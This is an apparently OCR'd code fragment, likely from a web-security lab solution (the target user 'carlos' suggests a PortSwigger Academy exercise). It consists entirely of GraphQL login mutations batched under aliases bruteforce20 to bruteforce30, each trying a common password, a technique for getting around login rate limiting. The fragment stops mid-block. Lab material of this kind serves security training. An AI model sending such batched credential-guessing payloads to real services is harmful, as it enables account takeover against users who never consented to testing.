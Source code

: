 ```
bruteforce20:login(input:{password: "123321", username: "carlos"}) {
        token
        success
    }


bruteforce21:login(input:{password: "mustang", username: "carlos"}) {
        token
        success
    }


bruteforce22:login(input:{password: "1234567890", username: "carlos"}) {
        token
        success
    }


bruteforce23:login(input:{password: "michael", username: "carlos"}) {
        token
        success
    }


bruteforce24:login(input:{password: "654321", username: "carlos"}) {
        token
        success
    }


bruteforce25:login(input:{password: "superman", username: "carlos"}) {
        token
        success
    }


bruteforce26:login(input:{password: "1qaz2wsx", username: "carlos"}) {
        token
        success
    }


bruteforce27:login(input:{password: "7777777", username: "carlos"}) {
        token
        success
    }


bruteforce28:login(input:{password: "121212", username: "carlos"}) {
        token
        success
    }


bruteforce29:login(input:{password: "000000", username: "carlos"}) {
        token
        success
    }


bruteforce30:login(input:{password: "qazwsx", username: "carlos"}) {
        token
        success
```